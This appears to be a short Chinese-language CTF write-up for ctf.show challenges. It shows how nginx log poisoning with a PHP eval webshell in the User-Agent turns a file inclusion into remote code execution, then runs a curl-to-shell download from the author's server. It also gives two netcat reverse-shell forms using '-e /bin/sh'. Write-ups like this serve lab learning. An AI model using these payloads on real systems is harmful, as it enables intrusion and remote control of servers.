 ## easy_calc
试了一百万字符的回溯限制，但没成功

没过滤分号，翻了半天大佬博客发现可以include""

然后就是nginx通过日志包含LFI转RCE，如果是apache可能就不行了

```
POST
http://f1e29844-4aaa-4979-96fe-790bd199c489.challenge.ctf.show/calc.php?1=system("curl VPS地址 | sh");


num1=2&symbol=*&num2=3;include"/var/log/nginx/access.log";
```
同时设置一次User-Agent=`<?php eval($_GET['1']); ?>`

## easy_cmd（赛后复现）
赛后听群主大大讲解，原来是-e需要放后边兼容版本，之前-e放前面没成功还以为是nc是安全的版本，大失败

这里也记一下笔记，“nc允许-e的版本中有的-e在前有的在后，但在后一般兼容在前”

姿势A：nc 192.168.x.x 1234 -e /bin/sh  
姿势B：nc -e /bin/sh 192.168.x.x 1234  

# WARMUP
## 热身题目
提前放出签到以推测参赛人数预购负载，太妙了（